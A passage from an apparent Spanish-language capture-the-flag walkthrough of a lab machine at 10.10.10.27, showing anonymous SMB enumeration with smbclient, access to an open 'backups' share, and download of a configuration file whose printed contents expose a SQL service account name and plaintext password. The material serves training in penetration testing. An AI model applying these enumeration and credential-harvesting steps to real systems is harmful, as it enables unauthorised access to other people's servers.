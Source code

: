 ```bash
```
Encontramos iformacion util para proseguir con las siguiente herramienta

Utilizamos la siguiente herramienta para ver si tenemos acceso al servicio samba sin proporcionar contraseña (-N) y ver si hay algun recurso disponible, descargarlo, subir algun archivo etc.
 [ smbclient ]
```bash
"smbclient -N -L //10.10.10.27/    "
   
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
Idientificamos un directorio llamado BACKUPS al que podemos acceder sin contraseña:

```bash
"smbclient -N  //10.10.10.27/backups    "
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                10328063 blocks of size 4096. 8255932 blocks available
smb: \> 
```
Listamos si hay algun archivo disponible dentro de "Backups". 
Probamos a descargar el archivo encontrado. 
Lo conseguimos descargar correctamente.

```bash
"smb: \> get prod.dtsConfig    "
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0,7 KiloBytes/sec) (average 0,7 KiloBytes/sec)
```
Le cambiamos de nombre al archivo descargado:
```bash
"mv prod.dtsConfig datos    " 
```
Leemos el archivo encontrado
```bash
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;"Password=M3g4c0rp123";User ID="ARCHETYPE\sql_svc";Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>   
```
